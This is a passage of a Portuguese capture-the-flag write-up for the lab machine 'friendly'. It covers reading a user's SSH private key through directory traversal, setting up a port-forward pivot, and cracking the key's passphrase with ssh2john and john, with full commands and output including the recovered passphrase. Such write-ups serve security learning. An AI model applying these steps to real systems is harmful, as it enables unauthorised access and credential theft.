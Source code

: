 Funcionando com as outras imagens tbm.

Box vulnerável a `directory traversal`

![alt text](/assets/img/friendly/friendly15.png)

Lendo chave ssh do usuário gh0st

![alt text](/assets/img/friendly/friendly16.png)

## **Acesso/Foothold**

Key adicionada ao arquivo sshghost  
Criando port forward pra ssh

```shell
[Agent : root@friendly] » listener_add --addr 172.18.100.4:222 --to 172.18.100.5:22 --tcp
INFO[2578] Listener 1 created on remote agent!          
[Agent : root@friendly] »  
```
{: .nolineno }

Ao tentar logar a chave tem uma senha, enviando ela pro john

```shell
╭─      ~/hmv/friendly               
╰─ ssh2john sshghost > hashssh.txt
╭─      ~/hmv/friendly         
╰─ john hashssh.txt --wordlist=/usr/share/wordlists/rockyou.txt         
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 2 for all loaded hashes
Cost 2 (iteration count) is 16 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
celtic           (sshghost)     
1g 0:00:00:22 DONE (2024-02-24 21:11) 0.04370g/s 11.18p/s 11.18c/s 11.18C/s 888888..freedom
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
{: .nolineno }
